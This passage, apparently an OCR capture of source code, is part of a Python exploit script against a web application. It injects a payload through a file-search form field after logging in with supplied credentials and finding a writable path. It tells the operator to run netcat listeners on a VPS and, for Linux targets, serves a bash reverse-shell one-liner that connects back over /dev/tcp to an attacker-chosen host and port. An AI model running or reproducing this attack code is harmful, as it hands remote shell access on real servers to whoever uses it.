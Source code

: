 ```python
        payload = "search_string=Hacker&search_file_type=" + payload
        headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
        response = session.post(url, data=payload, headers=headers, verify=False)
        content = response.content.decode('utf-8')
        print(content)


def promote_yes(hint):
    print(hint)
    while True:
        ans = input("[Y/n] ").lower()
        if ans == 'n':
            return False
        elif ans == 'y':
            return True
        else:
            print("Incorrect input")


def main():
    if len(sys.argv) != 7:
        print("Usage : ")
        print("        python %s [URL] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]" % (sys.argv[0]))
        print("        python %s [URL:PORT] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]" % (sys.argv[0]))
        print("Example : ")
        print("        python %s http://localhost/ admin admin 8.8.8.8 8888 linux" % (sys.argv[0]))
        print("        python %s http://localhost:8080/ admin admin 8.8.8.8 8888 windows" % (sys.argv[0]))
        print("Author : ")
        print("        WangYihang <wangyihanger@gmail.com>")
        exit(1)
    domain = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    host = sys.argv[4]
    port = int(sys.argv[5])
    platform = sys.argv[6]
    if platform.lower().startswith("win"):
        print("[+] Please execute the following command on your vps: ")
        print("nc -lnvp %d" % (port))
        if not promote_yes("[+] Please confirm that you have done the two command above [y/n]"):
            exit(1)
    else:
        print("[+] Please execute the following command on your vps: ")
        print("echo 'bash -c \"bash -i >/dev/tcp/%s/%d 0>&1 2>&1\"' | nc -lnvp %d" % (host, port + 1, port))
        print("nc -lnvp %d" % (port + 1))
        if not promote_yes("[+] Please confirm that you have done the two command above [y/n]"):
            exit(1)
    print("[+] Starting...")
    if not login(domain, username, password):
        print("[-] Login failed! Please check your username and password.")
        exit(2)
    print("[+] Login success!")
    print("[+] Getting writeable path...")
    path = get_write_able_path(domain)
    if path == False:
        print("[+] Get current path error!")
        exit(3)
    print("[+] Writeable Path : %s" % (path))
    print("[+] Sending payload...")
```